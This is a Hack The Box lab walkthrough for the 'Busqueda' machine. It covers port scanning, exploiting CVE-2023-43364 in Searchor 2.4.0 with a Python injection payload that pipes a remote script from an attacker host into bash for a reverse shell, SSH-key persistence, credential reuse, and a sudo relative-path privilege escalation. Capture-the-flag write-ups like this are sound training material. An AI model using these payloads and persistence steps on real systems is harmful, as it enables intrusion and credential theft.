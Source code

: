 ```yaml
---
date: 2025-03-02
categories: [Linux, Easy]
---
```


![Busqueda](https://labs.hackthebox.com/storage/avatars/a6942ab57b6a79f71240420442027334.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [kavigihan](https://app.hackthebox.com/users/389926)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---















- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.208 -oG scan
	/opt/extractports scan
	nmap -p22,80 -sCV -Pn 10.10.11.208 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/3d910ae7-1d83-4737-a0de-bc817d944004)

- I found the domain `searcher.htb` and add it to the `hosts` file
- Upon entering the page I find that it is running Searchor 2.4.0. Searching for information about it I find a vulnerability reported in [CVE-2023-43364](https://nvd.nist.gov/vuln/detail/cve-2023-43364). This CVE indicates a vulnerability that allows an RCE.

- I start by running a test to validate that this CVE works. I add code to make a GET request to a server that I set up locally. I observe that when I send the request I receive in my server the call. With this I validate that it works correctly and I can exploit it.

	```python
	', exec("import os;os.system('curl http://10.10.14.19/pepe');"))#
	```

	![image](https://github.com/user-attachments/assets/9df9e6ab-41f1-445e-9a9e-672edcd8d92f)

- I use [pentestmonkey's revershell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to set up a reverse shell. Thanks to this I can move through the system files and read the first flag.
	
	```python
	', exec("import os;os.system('curl http://10.10.14.19/rever.sh | bash -i');"))#
	```
	
	![image](https://github.com/user-attachments/assets/046b62f0-9105-4cc8-97d4-c020ddb69a1a)

- To make it easier for me to persist in the system, I create an ssh key and add my public key to the authorized_keys file.

	```python
	ssh-keygen -f key
	cat key.pub
	echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /home/svc/.ssh/authorized_keys
	ssh -i key svc@10.10.11.208
	```

- When consulting the ports in use on the system I find several that are not accessible from the outside. I share them via ssh to consult them from my machine.
	
	![image](https://github.com/user-attachments/assets/4dbdb929-c06f-4b33-ab07-a1340b24bd17)
	
	```python
	ssh -L 3000:127.0.0.1:3000 -L 5000:127.0.0.1:5000 -L 3306:127.0.0.1:3306 -L 44409:127.0.0.1:44409 -L 222:127.0.0.1:222 -i key svc@10.10.11.208
	```

- In one of the ports I see that gitea is running. First I have to add to the hosts file the domain.
- When searching in the gitea files I find a file containing the credentials of a user.

	![image](https://github.com/user-attachments/assets/e748bbe8-e80d-4850-ba8a-981170978f62)

- I validate if the password found belongs to any user other than cody and I see that it is the svc password. The user we previously had control with a shell. 
- I list which commands you can run with sudo without providing a password and find a python file.

	![image](https://github.com/user-attachments/assets/10218027-d7c0-4055-88ae-0e803d03e057)

- With this python file I can execute several docker commands. One of them is docker-inspect which allows me to see the container configuration.

	![image](https://github.com/user-attachments/assets/7b067b1e-cdc6-409d-aea5-35607d798b94)

- When consulting the configuration of the mysql_db container I find some passwords with which I can connect to mysql

	```python
	sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' mysql_db
	```
	
	![image](https://github.com/user-attachments/assets/d3e47eb0-c76e-4910-9215-c1e987ba8598)

- Inside mysql I can't find anything relevant. I check the password reuse and validate that it is the same as the one used by administrator in gitea. This allows me to consult its repository that contains the source code of this application that I can run as root thanks to sudo.

- Looking at the source code I find that in most cases absolute paths are used except when executing full-checkup.
	
	![image](https://github.com/user-attachments/assets/e425f4af-98c9-461a-bcc8-4188b29ff1c2)
	
- I look at the user's PATH and create a file in the first directory that I have write permissions a full-checkup.sh file containing a script that allows me to escalate my privileges.

	![image](https://github.com/user-attachments/assets/5a0c5e51-f356-4870-8e45-f755d2ef3f9e)

	```python
	sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
	```

- I run the program and get my script to run. This allows me to launch a new terminal as root and read the second flag.

	![image](https://github.com/user-attachments/assets/3fec9123-0dbb-472e-972b-0f1a53bb0826)
